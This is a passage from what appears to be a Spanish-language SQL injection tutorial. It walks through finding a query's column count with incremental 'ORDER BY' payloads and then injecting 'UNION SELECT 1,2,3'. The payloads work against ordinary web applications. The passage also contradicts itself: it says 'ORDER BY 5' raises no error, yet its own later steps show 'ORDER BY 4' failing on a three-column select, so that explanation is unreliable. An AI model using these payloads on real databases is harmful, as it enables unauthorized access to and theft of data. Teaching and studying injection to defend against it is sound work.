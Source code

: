             `SELECT id,nombre,precio FROM articulos WHERE id=1 ORDER BY 5`

            Por lo que la consulta NO arrojara un error, ya que le número de columnas es menor que el del total de columnas de la tabla.

        2. Continuaremos incrementando el número seguido del `ORDER BY` en la consulta hasta que la base de datos generare un error, ejemplo:

            **Intento 2:**

            `1 ORDER BY 2` - Sin error

            **Intento 3:**

            `1 ORDER BY 3` - Sin error

            **Intento 4:**

            `1 ORDER BY 4` - Error: `Unknown column '4' in 'order clause'`

            Con esto podemos deducir que el numero de columnas es 3, ahora podemos usar esta información para construir la consulta final:

            `SELECT id,nombre,precio FROM articulos where id=1 UNION SELECT 1,2,3`